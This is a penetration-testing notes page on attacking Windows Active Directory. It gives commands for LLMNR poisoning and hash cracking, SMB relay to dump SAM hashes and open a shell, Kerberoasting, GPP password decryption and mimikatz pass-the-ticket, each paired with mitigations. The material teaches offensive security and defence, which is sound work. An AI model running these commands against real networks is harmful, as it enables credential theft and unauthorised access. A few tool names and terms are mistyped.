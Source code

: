 ```yaml
---
title: 3 - Active Directory Exploitation
summary: Gaining Access step – a note for attacking Windows.
description: Gaining Access step – a note for attacking Windows.
---
```


# Resources

---

* [Pentesting Active Directory Mind Map - ODC](https://github.com/esidate/pentesting-active-directory/tree/main)
* [Top Five Ways I Got Domain Admin 2018 Edition - Adam Toscher](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)

# Initial Access

---

### 1 - LLMNR Attack

### Principle

![exploit-llmnr-principle.png](../attachments/exploit-llmnr-principle.png)
Credit: TCM Security

### Hands On


 > 
 > **<font color=red>responder -l</font> tun0 <font color=red>-dw</font>**</br>
 > Capture NTLM Hashes when DNS error occurs.

![tool-responder-llmnr_hash_capture.png](../attachments/tool-responder-llmnr_hash_capture.png)


 > 
 > **<font color=red>hashcat -m 5600 </font>myHashes.txt <font color=lightblue>/usr/share/wordlists/rockyou.txt</font>**</br>
 > Crack NetNTMLv2 hashes.

### Mitigation

* Disable LLMNR and NBT-NS
  * Local Computer Policy > Computer Configuration > Administrative Templates > Network > DNS Client > Multicast Name Resolution > OFF
  * Network Connections > Network Adapter Properties > TCP/IPv4 Properties > Advanced > WINS > NetBIOS over TCP/IP > Disable
* If this cannot be disabled
  * Network Access Control.
  * Enforce strong user password (over 14 characters) in order to make it harder to crack hashes.

Credit: TCM Security

---

### 2 - SBM Relay Attack

### Principle

Relay captured Hashes without cracking them to a SMB Server.

### Requirements & Limitations

* SMB Signing must be disabled on the target.
* The user that is relayed has to be admin on the target.
* It is not possible to relay a user to the same machine.

### Scan for vulnerable hosts (SMB Signing disabled)

**<font color=red>nmap --script=smb2-security-mode.nse -p445</font> \[TARGET_IP\]**</br>
Scan for disabled SMB Signing.

![tool-nmap-smb_signing.png](../attachments/tool-nmap-smb_signing.png)

### Hands on

#### Capture Hashes

Update Responder configuration to capture hashes but not respond.

 > 
 > **<font color=lightblue>/usr/share/responder/Responder.conf</font>**</br>

````
[Responder Core]

; Servers to start
SQL = On
#SMB = On # HERE #
RDP = On
Kerberos = On
FTP = On
POP = On
SMTP = On
IMAP = On
HTTP = On
HTTPS = On
DNS = On
LDAP = On
DCERPC = On
WINRM = On
SNMP = Off
````


 > 
 > **<font color=red>responder -l</font> tun0 <font color=red>-dw</font>**</br>
 > Capture NTLM Hashes when DNS error occurs.

![tool-responder-llmnr_hash_capture.png](../attachments/tool-responder-llmnr_hash_capture.png)

#### Relay Attacks


 > 
 > **<font color=red>python3 /opt/impacket/examples/ntlmrelayx.py -tf </font>myTargets.txt <font color=red>-smb2support --no-multirelay</font>**</br>
 > Relay NTLM Hash and Dump Sam Hashes.

![tool-ntlmrelayx-smb_relay_dump_sam.png.png](../attachments/tool-ntlmrelayx-smb_relay_dump_sam.png.png)

**TO CHECK**

 > 
 > **<font color=red>python3 /opt/impacket/examples/ntlmrelayx.py -tf</font> myTargets.txt <font color=red>-smb2support --no-multirelay -i</font>**</br>
 > Relay NTLM Hash and start a Bind Shell.

![tool-ntmlrelayx-smb_relay_reverse_shell.png](../attachments/tool-ntmlrelayx-smb_relay_reverse_shell.png)

 > 
 > **<font color=red>nc 127.0.0.1 11000</font>**
 > Connect to the shell.

### Mitigation

* Enable SMB Signing on all devices
  * Warning: May cause performance issues with file copies
* Disable NTML authentication on network
  * Warning: NTML is the backup solution when Kerberos don't work, NTML may be required by some applications.
* Limit high privilege accounts to specific tasks (e.g. Domain Admins only log when a Domain Admin access is required).
* Enforce Local admins restriction.

Credit: TCM Security

# Post User Compromise

---

### Kerberoasting

### Principle

![exploit_kerberoasting_principle.png](../attachments/exploit_kerberoasting_principle.png)

### Requirements

* Have valid user credentials (not necessarily admin).

### Hands On


 > 
 > **<font color=red>python3 /opt/impacket/examples/GetUserSPNs.py</font> \[TARGET_DOMAIN\]<font color=red>/</font>\[VALID_USER\]<font color=red>:</font>\[VALID_PASSWORD\] <font color=red>-dc-ip</font> \[DOMAIN_CONTROLLER_IP\] <font color=red>-request</font>**</br>
 > Get a TGS.

### Mitigation

* Have a very strong password for service accounts.
* Don’t make services accounts domain administrators.

---

### GPP Attack

### Principle

GPP (Group Policy Preferences) are policies with credentials embedded (they are encrypted and placed in `cPassword`).

The encryption key was released, so it is possible to decrypt GPP policies that have been encrypted with this key.

### Detection


 > 
 > **<font color=red>use</font> <font color=lightblue>auxiliary/scanner/smb/smb_enum_gpp</font>**</br>
 > Detect vulnerable GPP policies (credentials encrypted with leaked key).

### Hands On


 > 
 > **<font color=red>gpg-decrypt</font> mycPasswordEncrypted**</br>
 > Decrypt GPP enmbedded credentials.

---

### Pass the Ticket

### Hands On (MIMIKATZ)


 > 
 > **<font color=red>privilege::debug</font>**</br>
 > Ensure user has administrator privileges (ensure the output is `[output '20' OK]`). This indicates that debugging a process is possible.


 > 
 > **<font color=red>sekurlsa::tickets /export</font>**</br>
 > Export all `.kirbi` tickets into the current directory.

 > 
 > **<font color=red>kerberos::ptt</font> myTicketFromSekurlsa<font color=red>.kirbi</font>**</br>
 > Cache and impersonate the given ticket.
